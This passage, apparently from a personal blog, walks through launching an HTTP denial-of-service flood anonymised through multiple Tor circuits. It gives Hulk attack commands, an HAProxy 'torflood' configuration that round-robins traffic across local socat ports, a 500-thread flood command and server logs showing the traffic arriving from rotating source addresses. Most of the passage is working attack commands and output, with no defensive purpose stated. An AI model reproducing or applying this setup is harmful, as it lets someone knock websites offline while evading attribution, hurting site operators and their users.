 And BAM! hit the webserver through my 1st instance&#8217;s <acronym title="Internet Protocol">IP</acronym>.

I&#8217;ve followed throught the other ports (8080, 8081, 8082) and then each request appeared on the <acronym title="HyperText Transfer Protocol">HTTP</acronym> Server logs as a different source <acronym title="Internet Protocol">IP</acronym>.

Time to get the attack going.

## Tool limitations

Almost every <acronym title="HyperText Transfer Protocol">HTTP</acronym> <acronym title="Denial-of-Service">DoS</acronym> tool will get the attack <acronym title="Uniform Resource Locator">URL</acronym> supplied and use-it in their requests so I _THINK_ I could just opened a Hulk instance on each port like

{{< highlight bash >}}
./hulk.py http://www.example.com:8080 -t 100
./hulk.py http://www.example.com:8081 -t 100
./hulk.py http://www.example.com:8082 -t 100
# ... and so on
{{< /highlight >}}

But I&#8217;ve wanted to a single instance of Hulk to be able to attack through many <acronym title="Internet Protocol">IP</acronym> addresses. _Who you gonna call?_

## HAProxy to the rescue

I&#8217;ve been working with clustering (High-Availability and High-Performance) for years and I&#8217;m very familliar with load-balancing techniques like the so-obvious &#8220;round robin&#8221; so the idea came out: &#8220;What if I could put a load balancer on my local machine &#8220;round-robbing&#8221; through my `socat` ports?&#8221;

Well, that came out perfectly with a simple setup:

{{< highlight text >}}
listen torflood 0.0.0.0:80
   mode tcp
   balance roundrobin
   server  inst1 localhost:8080
   server  inst2 localhost:8081
   server  inst3 localhost:8082
{{< /highlight >}}

And then I&#8217;ve just let Hulk do its magic:

{{< highlight bash >}}
./hulk.py http://www.example.com -t 500
{{< /highlight >}}

Output:

{{< highlight text >}}
172.60.12.31 - - [05/Jun/2012:09:41:26 -0700] "GET
/?i40V8Q=2a8x2kchiE1gY0j&kLMNAr=XYgOT&SXx8=Oet1MBpM4DSd1&mPa6Gw=BkKlJtvNwoDc
<acronym title="HyperText Transfer Protocol">HTTP</acronym>/1.1" 200 545 "http://www.google.com/?q=YyYfukIp2h" "Mozilla/4.0
(compatible; <acronym title="Microsoft Internet Explorer">MSIE</acronym> 8.0; Windows NT 6.0; Trident/4.0; SLCC1; .NET CLR
2.0.50727; .NET CLR 1.1.4322; .NET CLR 3.5.30729; .NET CLR 3.0.30729)"
172.60.12.34 - - [05/Jun/2012:09:41:26 -0700] "GET
/?nrGb=LSj1&17vd5A=ylKN63uUe23 <acronym title="HyperText Transfer Protocol">HTTP</acronym>/1.1" 200 496
"http://www.google.com/?q=YIIk3kAX4F" "Mozilla/4.0 (compatible; <acronym title="Microsoft Internet Explorer">MSIE</acronym>
8.0; Windows NT 6.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727;

 [1]: http://www.oreillynet.com/onlamp/blog/2005/07/launching_attacks_via_tor.html
 [2]: http://ha.ckers.org/slowloris/
 [3]: http://en.wikipedia.org/wiki/Virtual_hosting
 [4]: http://blog.databigbang.com/distributed-scraping-with-multiple-tor-circuits/